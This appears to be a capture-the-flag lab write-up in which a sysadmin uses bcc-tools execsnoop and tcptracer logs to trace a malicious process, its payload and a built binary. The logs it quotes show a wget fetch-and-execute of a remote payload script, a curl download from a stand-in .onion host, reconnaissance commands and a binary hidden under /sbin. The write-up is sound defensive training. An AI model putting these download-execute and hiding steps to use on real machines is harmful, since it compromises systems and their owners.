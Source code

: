 #### 8. BCC Tools: Combo I

----

A newly appointed sysadmin was assigned a job to monitor the system activity. He ended up using a couple of scripts available from bcc-tools, and had recorded output from them. So there is different info available from different logs. Could you help him answer the following questions:

```sh
root@attackdefense:~# ls -l
total 12
-rw-rw-r-- 1 root root 3257 Jun 27 10:26 execsnoop.logs
-rw-rw-r-- 1 root root 6368 Jun 27 10:27 tcptracer.logs
root@attackdefense:~# 
```

- A malicious process had downloaded a payload script into /tmp directory using wget. What is the name of the malicious process?

```sh
root@attackdefense:~# grep wget execsnoop.logs
 80173  80171 /bin/sh -c wget -O /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe http://abc.pqr.xyz.local/payload.sh
 80174  80173 wget -O /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe http://abc.pqr.xyz.local/payload.sh
root@attackdefense:~#
```

```sh
root@attackdefense:~# grep 80171 execsnoop.logs
 80171  80164 ./random-sample
 80172  80171 /bin/sh -c mkdir /tmp/.b1b1d2597a4ff853e0de332dced213b3/
 80173  80171 /bin/sh -c wget -O /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe http://abc.pqr.xyz.local/payload.sh
 80223  80171 /bin/sh -c chmod +x /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe
 80225  80171 /bin/sh -c /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe
root@attackdefense:~#
```

```
random-sample
```

- What is the absolute path of the directory where the malicious process had downloaded the payload script?

```sh
# grep wget execsnoop.logs
# grep 80171 execsnoop.logs
/tmp/.b1b1d2597a4ff853e0de332dced213b3
```

- What is the IP address of the remote machine from which the payload script had been downloaded using wget?

```sh
root@attackdefense:~# grep wget tcptracer.logs
C  80174  wget             4  192.168.161.139  192.168.36.3     40864  80
X  80174  wget             4  192.168.161.139  192.168.36.3     40864  80
root@attackdefense:~#
```

```
192.168.36.3
```

- The malicious process passed the execution control to the payload script and terminated itself. The script had retrieved a gzip compressed archive from a remote machine and built a binary from the downloaded source. What is the domain name of the remote machine from which the archive was retrieved?

```sh
root@attackdefense:~# less execsnoop.logs
Tracing exec()s. Ctrl-C to end.
Instrumenting sys_execve
   PID   PPID ARGS
 79930  79926 mawk -W interactive -v o=1 -v opt_name=0 -v name= [...]
 79931  79929 cat -v trace_pipe
 79932   7592 bash
 79934  79933 lesspipe
 79935  79934 basename /usr/bin/lesspipe
 79937  79936 dirname /usr/bin/lesspipe
 79939  79938 dircolors -b
 79941  79940 ls /etc/bash_completion.d
 79950   7592 bash
 79952  79951 lesspipe
 79953  79952 basename /usr/bin/lesspipe
 79955  79954 dirname /usr/bin/lesspipe
 79957  79956 dircolors -b
 79959  79958 ls /etc/bash_completion.d
 79968   7592 bash
 79970  79969 lesspipe
 79971  79970 basename /usr/bin/lesspipe
 79973  79972 dirname /usr/bin/lesspipe
 79975  79974 dircolors -b
 79977  79976 ls /etc/bash_completion.d
 79987  79986 /usr/lib/firefox/firefox -contentproc -childID 37 -isForBrowser -prefsLen 8989 -prefMapSize 179756 [...]
 79992  79991 /usr/lib/firefox/firefox -contentproc -childID 38 -isForBrowser -prefsLen 8989 -prefMapSize 179756 [...]
 80030  80029 /usr/lib/firefox/firefox -contentproc -childID 39 -isForBrowser -prefsLen 8989 -prefMapSize 179756 [...]
 80057  80055 /usr/lib/firefox/firefox -contentproc -childID 40 -isForBrowser -prefsLen 8989 -prefMapSize 179756 [...]
 80075  80071 /usr/lib/firefox/firefox -contentproc -childID 41 -isForBrowser -prefsLen 8989 -prefMapSize 179756 [...]
 80105  80104 /usr/lib/firefox/firefox -contentproc -childID 42 -isForBrowser -prefsLen 8989 -prefMapSize 179756 [...]
 80128  80127 /usr/lib/firefox/firefox -contentproc -childID 43 -isForBrowser -prefsLen 8989 -prefMapSize 179756 [...]
 80164  75778 sudo ./random-sample
 80171  80164 ./random-sample
 80172  80171 /bin/sh -c mkdir /tmp/.b1b1d2597a4ff853e0de332dced213b3/
 80173  80171 /bin/sh -c wget -O /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe http://abc.pqr.xyz.local/payload.sh
 80175  80172 mkdir /tmp/.b1b1d2597a4ff853e0de332dced213b3/
 80174  80173 wget -O /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe http://abc.pqr.xyz.local/payload.sh
 80195  80194 x-terminal-emulator
 80199  80195 /usr/bin/gnome-terminal.real
 80203   7592 bash
 80205  80204 lesspipe
 80206  80205 basename /usr/bin/lesspipe
 80208  80207 dirname /usr/bin/lesspipe
 80210  80209 dircolors -b
 80212  80211 ls /etc/bash_completion.d
 80221  80203 ifconfig
 80222  80203 ps aux
 80223  80171 /bin/sh -c chmod +x /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe
 80224  80223 chmod +x /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe
 80225  80171 /bin/sh -c /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe
 80226  80225 /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe
 80227  80226 ls -al
 80228  80226 ps aux
 80229  80226 whoami
 80230  80226 uname -a
 80231  80226 mkdir /tmp/.8fb2de9a69d21e8b5e355cea023ff371/
 80232  80226 curl http://xyz.fake-domain.onion:8000/packages.tar.gz > /tmp/.8fb2de9a69d21e8b5e355cea023ff371/packages.tar.gz
 80233  80226 tar xzvf /tmp/.8fb2de9a69d21e8b5e355cea023ff371/packages.tar.gz
 80234  80233 gzip -d
 80235  80226 make
 80236  80226 make install
 80237  80226 make clean
 80238  80226 mv bin/simple-binary /sbin/.3d9d001b2e1cffeb6b2d85098ef56363/.simple-binary
 80239  80226 rm -rf /tmp/.8fb2de9a69d21e8b5e355cea023ff371
:
```

```
xyz.fake-domain.onion
```

- The binary built from source is stored in /sbin directory. Provide the full path of the binary.

```sh
# root@attackdefense:~# less execsnoop.logs
/sbin/.3d9d001b2e1cffeb6b2d85098ef56363/.simple-binary
```

- Retrieve the flag stored in the binary.

```sh
root@attackdefense:~# file /sbin/.3d9d001b2e1cffeb6b2d85098ef56363/.simple-binary
/sbin/.3d9d001b2e1cffeb6b2d85098ef56363/.simple-binary: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=78f1a9545ab7408ff8a664cd5bb9917522f57450, not stripped
root@attackdefense:~#
```

```sh
root@attackdefense:~# strings /sbin/.3d9d001b2e1cffeb6b2d85098ef56363/.simple-binary | grep -i flag
FLAG = ce859f7b2d82cc7c06eb75b95707708f
root@attackdefense:~#
```

```sh
root@attackdefense:~# /sbin/.3d9d001b2e1cffeb6b2d85098ef56363/.simple-binary
FLAG = ce859f7b2d82cc7c06eb75b95707708f
Exploit code:
Contacting Command-and-Control server...
Extracting system info...
root@attackdefense:~#
```

```
ce859f7b2d82cc7c06eb75b95707708f
```

----

###### References:

- [Execsnoop script](https://github.com/iovisor/bcc/blob/master/tools/execsnoop.py)
- [Execsnoop Examples]
(https://github.com/iovisor/bcc/blob/master/tools/execsnoop_example.txt)
- [Tcptracer script](https://github.com/iovisor/bcc/blob/master/tools/tcptracer.py)
- [Tcptracer Examples]
(https://github.com/iovisor/bcc/blob/master/tools/tcptracer_example.txt)
- [BCC Tools](https://github.com/iovisor/bcc)

----

EOF